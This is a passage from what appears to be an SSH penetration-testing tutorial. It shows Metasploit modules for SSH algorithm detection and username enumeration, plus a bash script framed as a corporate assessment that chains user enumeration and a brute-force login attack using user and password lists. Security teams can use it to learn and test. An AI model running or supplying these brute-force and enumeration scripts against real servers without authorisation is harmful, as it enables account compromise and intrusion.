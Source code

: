 ```bash

echo "[+] Comprehensive report saved to $OUTPUT_DIR/full_report.txt"
```

**Usage**:

```bash
chmod +x ssh_complete_enum.sh
./ssh_complete_enum.sh 192.168.1.100
```

## Advanced SSH Enumeration Techniques

### SSH Algorithm Detection

```bash
msf6 > use auxiliary/scanner/ssh/ssh_encrypt
msf6 auxiliary(scanner/ssh/ssh_encrypt) > run
```

### SSH Username Enumeration (Timing Attack)

```bash
msf6 > use auxiliary/scanner/ssh/ssh_enumusers
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set THREADS 10
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run
```

## Real-World Attack Scenario

### Corporate SSH Server Assessment

```bash
#!/bin/bash

TARGET=$1
CUSTOM_USER_LIST="corp_users.txt"
CUSTOM_PASS_LIST="corp_passwords.txt"

echo "[*] Starting corporate SSH assessment"
echo "[*] Target: $TARGET"

# Phase 1: Discovery and version detection
./ssh_setup.sh $TARGET

# Phase 2: User enumeration with custom lists
msfconsole -q -x "
workspace corp_ssh_assessment;
setg RHOSTS $TARGET;
use auxiliary/scanner/ssh/ssh_enumusers;
set USER_FILE $CUSTOM_USER_LIST;
run;" > user_enum_results.txt

# Phase 3: Targeted brute force
msfconsole -q -x "
workspace corp_ssh_assessment;
use auxiliary/scanner/ssh/ssh_login;
set USER_FILE $CUSTOM_USER_LIST;
set PASS_FILE $CUSTOM_PASS_LIST;
set THREADS 10;
set BRUTEFORCE_SPEED 2;
run;" > brute_force_results.txt

echo "[+] Assessment complete. Check user_enum_results.txt and brute_force_results.txt"
```